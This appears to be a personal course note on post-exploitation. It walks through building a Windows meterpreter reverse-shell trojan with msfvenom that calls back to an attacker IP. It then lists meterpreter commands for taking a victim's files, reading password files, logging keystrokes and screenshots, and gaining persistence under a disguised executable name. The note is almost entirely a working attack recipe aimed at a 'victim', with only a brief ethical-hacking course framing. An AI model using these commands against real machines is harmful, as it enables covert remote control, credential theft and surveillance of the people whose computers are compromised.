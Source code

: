 **Post Exploitation** 

How to create a trojan and then hide it in an image so that we can access a victim's computer. 

Making the trojan with MSFVenom:
```sh
sudo msfvenom -p windows/meterpreter/reverse_tcp --platform windows -f exe LHOST=<attacker-ip> LPORT=4444 -o /home/payloads/payload.exe
```
- If you wanted to use this on an external network you would add an external IP (public IP) and then setup port forwarding. in your router. 

---

**File control in meterpreter**

Upload file
```sh
upload example.png
```

Delete file
```sh
del example.png
```

Download file from victim's PC
```sh
download stolen-file.txt
```

Read sensitive files
```sh
cat passwords.txt
```

**Other meterpreter commands**

Drop into a normal shell
```sh
shell
```

Capture keyboard 
```sh
keyscan_start
```

Dump data from keyscan
```sh
keyscan_dump
```

Take screenshot
```sh
screenshot
```

---

**Create a More Sustainable Session**

Background the meterpreter session
```sh
background
```

Restore session
```sh
sessions <id>
```

After we background the session we can use a persistence module
```sh
use exploit/windows/local/persitence
```
- May need to set payload before this step 

Set options
```sh
options
```

```sh
set EXE_NAME windowsexplorer.exe
```

Set which session to use
```sh
set SESSION 1
```

Show advanced settings 
```sh
show advanced
```

Set custom exe
```sh
set EXE::Custom /<path-to-file>
```
- Here i would use: `/var/www/html/payloads/payload.exe`

Run the exploit
```sh
exploit
```

If we go back into the muli-handler and restart the computer, the listener should get a session back if the victim's PC is restarted.

It could take a few minutes for it to work. There is a way to hide our malicious process but i'll have to add in this later when i get on Kali and experiment with the course content.

---

**Ethical Hacker's Blueprint - Road to Success**
















